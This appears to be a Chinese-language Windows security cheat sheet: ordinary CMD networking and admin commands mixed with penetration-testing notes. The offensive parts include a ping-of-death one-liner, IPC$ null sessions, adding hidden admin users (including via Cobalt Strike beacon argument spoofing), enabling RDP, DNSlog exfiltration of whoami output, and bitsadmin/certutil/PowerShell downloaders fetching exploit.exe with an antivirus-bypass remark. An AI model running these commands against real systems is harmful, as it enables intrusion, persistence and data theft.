

# Windows 安全

---

## 本地提权

[windows提权-CVE-2022-21882](https://github.com/KaLendsi/CVE-2022-21882)


---

## CMD 命令用法记录

---

## 网络常用
**ipconfig**
```cmd
ipconfig /all 显示完整配置信息
ipconfig /release 释放指定适配器的 IPv4 地址
ipconfig /release6 释放指定适配器的 IPv6 地址
ipconfig /renew 更新指定适配器的 IPv4 地址
ipconfig /renew6 更新指定适配器的 IPv6 地址
ipconfig /flushdns 清除 DNS 解析程序缓存
```

**netstat**
```cmd
netstat -a 查看开启了哪些端口，常用 netstat -an
netstat -n 查看端口的网络连接情况，常用 netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例:netstat -p tcq/ip 查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况
netstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名

netstat -bn 查看每个程序的连接
```

**ping**
```cmd
ping ip(或域名) 向对方主机发送默认大小为32字节的数据
ping -l[空格]数据包大小 ip
ping -n 发送数据次数 ip
ping -t ip 一直 ping。
ping -t -l 65500 ip 死亡之 ping(发送大于64K的文件并一直 ping 就成了死亡之 ping)
```

**tracert**
```cmd
-d                 不将地址解析成主机名。
-h maximum_hops    搜索目标的最大跃点数。
-j host-list       与主机列表一起的松散源路由(仅适用于 IPv4)。
-w timeout         等待每个回复的超时时间(以毫秒为单位)。
-R                 跟踪往返行程路径(仅适用于 IPv6)。
-S srcaddr         要使用的源地址(仅适用于 IPv6)。
-4                 强制使用 IPv4。
-6                 强制使用 IPv6。
```

**route**
```cmd
route print
route print 192.*
route add 0.0.0.0 mask 0.0.0.0 192.168.6.1 增加网关
route delete 0.0.0.0 mask 0.0.0.0 192.168.6.1 删除网关
route change 16.21.0.0 mask 255.255.0.0 16.28.0.25 将访问16.21.0.0 段的网关改为 0.25
```

**arp**
```cmd
arp -a      查看全部
arp -d ip   删除
```

**nslookup**
```cmd
nslookup domain [dns-server]            查询域名A记录
nslookup -qt=type domain [dns-server]   查询其他记录
    A 地址记录
    AAAA 地址记录
    AFSDB Andrew文件系统数据库服务器记录
    ATMA ATM地址记录
    CNAME 别名记录
    HINFO 硬件配置记录，包括 CPU、操作系统信息
    ISDN 域名对应的 ISDN 号码
    MB 存放指定邮箱的服务器
    MG 邮件组记录
    MINFO 邮件组和邮箱的信息记录
    MR 改名的邮箱记录
    MX 邮件服务器记录
    NS 名字服务器记录
    PTR 反向记录
    RP 负责人记录
    RT 路由穿透记录
    SRV TCP服务器信息记录
    TXT 域名对应的文本信息
    X25 域名对应的X.25地址记录
```

**net**
```cmd
net use ipipc$ " " /user:" " 建立 IPC 空链接
net use ipipc$ "密码" /user:"用户名" 建立 IPC 非空链接
net use h: ipc$ "密码" /user:"用户名" 直接登陆后映射对方 C: 到本地为 H:
net use h: ipc$ 登陆后映射对方 C: 到本地为 H:
net use ipipc$ /del 删除 IPC 链接
net use h: /del 删除映射对方到本地的为 H: 的映射
net user 用户名　密码　/add 建立用户
net user guest /active:yes 激活 guest 用户
net user 查看有哪些用户
net user 帐户名 查看帐户的属性
net localgroup administrators 用户名 /add 把"用户"添加到管理员中使其具有管理员权限
net start 查看开启了哪些服务
net start 服务名　开启服务；(如:net start telnet， net start schedule)
net stop 服务名 停止某服务
net time 目标ip 查看对方时间
net time 目标ip /set 设置本地计算机时间与"目标IP"主机的时间同步，加上参数 /yes 可取消确认
net view 查看本地局域网内开启了哪些共享
net view ip 查看对方局域网内开启了哪些共享
net config 显示系统网络设置
net logoff 断开连接的共享
net pause 服务名 暂停某服务
net send ip "文本信息" 向对方发信息
net ver 局域网内正在使用的网络连接类型和信息
net share 查看本地开启的共享
net share ipc$ 开启 ipc$ 共享
net share ipc$ /del 删除 ipc$ 共享
net share c$ /del 删除 C: 共享
net user guest 12345 用 guest 用户登陆后用将密码改为 12345
net password 密码 更改系统登陆密码
```

---

## 系统信息
`ver` windows版本

`msinfo32`  系统信息面板

`services.msc` 服务面板

`gpedit.msc` 组策略管理器

`regedit` 注册表

`finger username @host` 查看最近有哪些用户登陆

**slmgr.vbs**
```cmd
slmgr.vbs -dlv :显示详细的许可证信息
slmgr.vbs -dli :显示许可证信息
slmgr.vbs -xpr :当前许可证截止日期
slmgr.vbs -dti :显示安装ID 以进行脱机激
slmgr.vbs -ipk :(Product Key)安装产品密钥
slmgr.vbs -ato :激活Windows
slmgr.vbs -cpky :从注册表中清除产品密钥(防止泄露引起的攻击)
slmgr.vbs -ilc :(License file)安装许可证
slmgr.vbs -upk :卸载产品密钥
slmgr.vbs -skms :(name[ort] )批量授权
```

---

## 常用

**shutdown**
```cmd
shutdown -s -t 60 60秒后关机
shutdown -s -t 3600 1小时后关机
tsshutdn 60秒后关机
shutdown -s -f 强制关机
shutdown -s -t 时间
shutdown -a 取消 关机命令
```

**taskkill**
```cmd
taskkill /im 进程名称
taskkill /pid [进程码] -t(结束该进程) -f（强制结束该进程以及所有子进程）
```

**at**
```cmd
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数 /yes 则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
```

**[Schtasks.exe](https://docs.microsoft.com/en-us/windows/win32/taskschd/schtasks)**
```markdown
创建计划任务 "gametime"，在每月的第一个星期天运行“空当接龙”。

SCHTASKS /Create /SC MONTHLY /MO first /D SUN /TN gametime /TR c:\windows\system32\freecell

- /SC   schedule     指定计划频率。有效计划任务:  MINUTE、 HOURLY、DAILY、WEEKLY、MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE, ONEVENT.
- /MO   modifier     改进计划类型以允许更好地控制计划重复周期。有效值列于下面“修改者”部分中。
- /D    days         指定该周内运行任务的日期。有效值:MON、TUE、WED、THU、FRI、SAT、SUN和对 MONTHLY 计划的 1 - 31(某月中的日期)。通配符“*”指定所有日期。
- /TN   taskname     以路径\名称形式指定对此计划任务进行唯一标识的字符串。
- /TR   taskrun      指定在这个计划时间运行的程序的路径和文件名。例如: C:\windows\system32\calc.exe

```


**CMD开启rdp：**
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

**通过防火墙**
键入以下命令以通过Windows防火墙启用远程桌面，然后按Enter：
```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

**dnslog不只是可以ping，你还可以在里面带数据**

比如linux,
```
 ping `whoami`.ag1euc.dnslog.cn
```


windows下就是
```
ping %USERNAME%.xxxxx.ceye.io
```
这么搞，在真正无回显的情况下判断系统版本

CMD 扫描主机
```bash
## 探测一个C网段有多少台主机

for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="
```

常见的代码指令




###### 常见提权

1. 查看目标服务器上的打的补丁，看看哪些可以使用poc打


参数污染执行命令

```
beacon> argue net1 /bypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypassbypass
beacon> run net1 user what t1!@##1dsdfq3 /add
beacon> run net1 localgroup administrators what /add
```


## LOL


###### bitsadmin

系统要求 >= Windows Vista
bitsadmin /transfer down /download /priority normal "http://www.xxx.com/xxx.exe" "F:\1.exe"


###### certutil

建议先执行一遍 certutil,再执行下方命令(可能可以绕火绒、360等杀软)
certutil -urlcache -split -f http://www.xxx.com/xxx.exe 1.exe


###### powershell

同样,攻击机起http服务
```powershell-download
echo $storageDir =$pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://kali-ip/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
在目标机执行powershell-download中的命令,会生成wget.ps1
目标机执行:
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1


###### 远程下载

certutil 还可用于从互联网下载文件。

```
certutil.exe -urlcache -split -f http://example.com/a.txt
```


###### 程序降权启动方法

第一种：runas

```
runas /user:a calc.exe
```

接着输入密码：a用户的密码

calc.exe的权限为用户a的权限

缺点：正常在webshell下进行，一般都是半交互式为主，该程序需要交互式才可以进行

解决办法：自带的vbs脚本

```vbs
set WshShell = WScript.CreateObject("WScript.Shell")
WshShell.run "runas /user:domain\user command" 'Open command prompt
WScript.Sleep 1000
WshShell.SendKeys "password" 'send password
WshShell.SendKeys "{ENTER}"
WScript.Sleep 1000
```

解决办法：第三方工具sanur

```
runas /user:domain\user notepad.exe | sanur password
```

第二种：lsrunas

```
lsrunas /user:administrator /password:123456 /domain: /command:notepad.exe /runpath:c:
```

第三种：cpau

```
cpau -u administrator -p password -ex notepad
```


**2022-02-14**

- OS漏洞:
  - pwnkit：polkit 的 pkexec 中的本地权限升级 （CVE-2021-4034）
  - [一些绕过AV进行UserAdd的方法总结及实现](https://www.anquanke.com/post/id/264890)
- [blackhat--欧洲2021](https://www.blackhat.com/eu-21/briefings/schedule/)
  - [录播视频](https://www.youtube.com/playlist?list=PLH15HpR5qRsW62N-GLRb1q56Zr7sm10rF)
  - [通过恶意 USB 设备实现 Linux 内核代码执行](https://www.blackhat.com/eu-21/briefings/schedule/#achieving-linux-kernel-code-execution-through-a-malicious-usb-device-24776)
  - [禅与对抗性机器学习的艺术](https://www.blackhat.com/eu-21/briefings/schedule/#zen-and-the-art-of-adversarial-machine-learning-24746)
  - [Windows Defender - 通过了解 AV 的签名来揭开神秘面纱并绕过 ASR](https://www.blackhat.com/eu-21/briefings/schedule/#windows-defender---demystifying-and-bypassing-asr-by-understanding-the-avs-signatures-24866)


**2022-02-15**

[正向shell总结](https://xz.aliyun.com/t/10843)
